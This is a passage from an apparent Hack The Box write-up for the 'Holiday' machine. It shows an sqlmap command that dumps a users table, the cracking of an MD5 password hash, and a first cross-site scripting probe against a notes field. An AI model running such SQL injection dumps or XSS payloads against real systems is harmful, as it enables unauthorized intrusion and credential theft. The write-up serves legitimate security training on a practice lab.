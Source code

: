 There are 5 tables on the database:
```markdown
[5 tables]
+-----------------+
| bookings        |
| notes           |
| sessions        |
| sqlite_sequence |
| users           |
+-----------------+
```

The table _users_ seems interesting:
```markdown
sqlmap -r login.req --risk 3 --level 5 --threads 10 -T users --dump
```
```markdown
[1 entry]
+----+--------+----------------------------------+----------+
| id | active | password                         | username |
+----+--------+----------------------------------+----------+
| 1  | 1      | fdc8cd4cff2c19e0d1022e78481ddf36 | RickA    |
+----+--------+----------------------------------+----------+
```

It found the username _RickA_ and a hashed password in this table. The hash is most likely a MD5-hash as it has 32 characters. It can be found on **hashes.org** and it is:
> nevergonnagiveyouup

 With these credentials we can log in on the web page.

### Analyzing the web page

As we logged in, the web page forwarded us to _/agent_ where we see bookings in a table with names and UUIDs:

![Bookings page](https://kyuu-ji.github.io/htb-write-up/swagshop/holiday_web-bookings-1.png)

There are 100 different names and UUIDs.
When clicking the UUID, we get information about the customer and can add a note to it:

![Bookings page details](https://kyuu-ji.github.io/htb-write-up/swagshop/holiday_web-bookings-2.png)

![Bookings page notes](https://kyuu-ji.github.io/htb-write-up/swagshop/holiday_web-bookings-3.png)

The information at the bottom of the notes page hints, that this could be an attack to make the automated approval click or execute something malicious.
Lets try some JavaScript to see if this page is vulnerable to **Cross-Site Scripting**.

Adding a simple `<script>alert(1)</script>` as a note and after it gets approved, we see that it gets filtered like this:
```markdown
&lt;script&gt;alert(1);&lt;/script&gt;
```

This kind of filtering can get evaded with different tricks which can be found in the [OWASP XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet).
